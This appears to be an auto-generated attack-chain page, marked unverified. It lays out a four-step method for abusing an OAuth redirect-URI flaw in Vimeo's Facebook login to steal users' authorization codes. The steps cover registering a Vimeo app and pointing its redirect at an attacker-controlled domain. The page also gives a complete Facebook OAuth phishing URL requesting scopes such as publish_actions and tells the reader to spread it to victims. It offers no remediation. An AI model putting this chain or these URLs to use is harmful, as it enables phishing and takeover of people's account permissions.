

# Vimeo Facebook OAuth Misconfiguration for Authorization Code Theft

Multi-stage attack chain demonstrating exploitation of OAuth redirect URI misconfiguration in Vimeo's integration with Facebook to enable open redirects and steal authorization codes, potentially leading to unauthorized access to users' Facebook permissions on Vimeo.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Access to Vimeo's API developer portal

### Target Environment

- Web platform
- Vimeo API services
- Facebook OAuth integration

### Initial Access Requirements

- Ability to register apps on Vimeo's API (no authentication required for basic registration)
- Attacker-controlled domain for redirect endpoint
- No prior access to victim accounts needed; social engineering to trick user into clicking link

## Detailed Attack Procedures

### Step 1: Create Malicious Vimeo API App
procedure: [[procedures/Create-Malicious-Vimeo-API-App]]

**Objective**: Register a new application on Vimeo's API to obtain a client_id for use in the OAuth flow.

**Instructions**: Navigate to Vimeo's developer portal and create a new app, providing minimal details to receive a client_id.

**Expected Output**: A unique client_id, such as `9f3bb9f9186bc825434330567c99283f6dd57586`.

**Success Indicators**:
- App registered successfully
- Client_id generated and noted

### Step 2: Register Malicious Redirect URI
procedure: [[procedures/Register-Malicious-Redirect-URI]]

**Objective**: Configure the app with an attacker-controlled redirect URI to capture stolen codes.

**Instructions**: In the app settings, set the redirect_uri to an endpoint under attacker control, e.g., `http://www.prashanthvarma.in/code.php?code=`, ensuring it can log incoming authorization codes.

**Expected Output**: Redirect URI saved in app configuration.

**Success Indicators**:
- URI updated without validation errors
- Endpoint ready to receive redirects

### Step 3: Construct Chained Redirect URI
procedure: [[procedures/Construct-Chained-Redirect-URI]]

**Objective**: Build a redirect_uri parameter that exploits subdomain handling in Vimeo's OAuth authorize endpoint to chain to the malicious URI.

**Instructions**: Craft the chained URI using the Vimeo authorize endpoint: `https://api.vimeo.com/oauth/authorize?response_type=code&client_id=9f3bb9f9186bc825434330567c99283f6dd57586&state=912145450290129&redirect_uri=http://www.prashanthvarma.in/code=`. This leverages lack of strict validation to allow traversal.

**Expected Output**: Valid chained redirect URI string ready for embedding.

**Success Indicators**:
- URI parses correctly
- No immediate validation blocks

### Step 4: Craft Final Malicious OAuth URL
procedure: [[procedures/Craft-Final-Malicious-OAuth-URL]]

**Objective**: Combine all elements into a phishing URL that tricks the user into authorizing via Facebook, redirecting the code to the attacker.

**Instructions**: Construct the full URL: `https://www.facebook.com/dialog/oauth?client_id=19884028963&redirect_uri=https://api.vimeo.com/oauth/authorize%3Fresponse_type%3Dcode%26client_id%3D9f3bb9f9186bc825434330567c99283f6dd57586%26state%3D912145450290129%26redirect_uri%3Dhttp://www.prashanthvarma.in/code=&iframe=0&popup=0&player=0&product_id=0&scope=email,basic_info,read_stream,publish_actions`. Distribute this link via phishing to initiate the flow.

**Expected Output**: User clicks link, authorizes, and code redirects to attacker's site.

**Success Indicators**:
- User authorizes the dialog
- Authorization code captured on attacker endpoint

## Attack Chain Summary

### Key Achievements

1. Successful app registration and client_id acquisition
2. Bypassing redirect validation via chaining
3. Interception of Facebook OAuth codes for Vimeo permissions
4. Potential account compromise via stolen permissions (e.g., read_stream, publish_actions)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Steal Application Access Token]] Steal Application Access Token
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Credential Access]] Credential Access
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
